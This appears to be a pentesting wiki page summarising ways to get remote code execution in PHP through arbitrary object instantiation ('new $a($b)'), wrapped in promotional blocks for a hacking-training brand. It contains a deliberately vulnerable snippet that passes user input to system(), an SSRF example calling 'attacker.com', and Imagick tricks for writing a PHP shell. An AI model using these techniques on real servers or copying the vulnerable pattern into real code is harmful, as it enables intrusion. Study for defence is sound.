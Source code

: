 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

The creation of new arbitrary objects, such as `new $_GET["a"]($_GET["a"])`, can lead to Remote Code Execution (RCE), as detailed in a [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). This document highlights various strategies for achieving RCE.

## RCE via Custom Classes or Autoloading

The syntax `new $a($b)` is used to instantiate an object where **`$a`** represents the class name and **`$b`** is the first argument passed to the constructor. These variables can be sourced from user inputs like GET/POST, where they may be strings or arrays, or from JSON, where they might present as other types.

Consider the code snippet below:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this instance, setting `$a` to `App` or `App2` and `$b` to a system command (e.g., `uname -a`) results in the execution of that command.

**Autoloading functions** can be exploited if no such classes are directly accessible. These functions automatically load classes from files when needed and are defined using `spl_autoload_register` or `__autoload`:

```php
spl_autoload_register(function ($class_name) {
    include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
    include $class_name . '.php';
};

spl_autoload_register();
```

The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE via Built-In Classes

Lacking custom classes or autoloaders, **built-in PHP classes** may suffice for RCE. The number of these classes ranges between 100 to 200, based on PHP version and extensions. They can be listed using `get_declared_classes()`.

Constructors of interest can be identified through the reflection API, as shown in the following example and the link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

The `SplFileObject` class enables SSRF through its constructor, allowing connections to any URL:

```php
new SplFileObject('http://attacker.com/');
```

SSRF can lead to deserialization attacks in versions of PHP before 8.0 using the Phar protocol.

### **Exploiting PDOs**

The PDO class constructor allows connections to databases via DSN strings, potentially enabling file creation or other interactions:

```php
new PDO("sqlite:/tmp/test.txt")
```

### **SoapClient/SimpleXMLElement XXE**

Versions of PHP up to 5.3.22 and 5.4.12 were susceptible to XXE attacks through the `SoapClient` and `SimpleXMLElement` constructors, contingent on the version of libxml2.

## RCE via Imagick Extension

In the analysis of a **project's dependencies**, it was discovered that **Imagick** could be leveraged for **command execution** by instantiating new objects. This presents an opportunity for exploiting vulnerabilities.

### VID parser

The VID parser capability of writing content to any specified path in the filesystem was identified. This could lead to the placement of a PHP shell in a web-accessible directory, achieving Remote Code Execution (RCE).

#### VID Parser + File Upload

It's noted that PHP temporarily stores uploaded files in `/tmp/phpXXXXXX`. The VID parser in Imagick, utilizing the **msl** protocol, can handle wildcards in file paths, facilitating the transfer of the temporary file to a chosen location. This method offers an additional approach to achieve arbitrary file writing within the filesystem.

### PHP Crash + Brute Force

A method described in the [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) involves uploading files that trigger a server crash before deletion. By brute-forcing the name of the temporary file, it becomes possible for Imagick to execute arbitrary PHP code. However, this technique was found to be effective only in an outdated version of ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
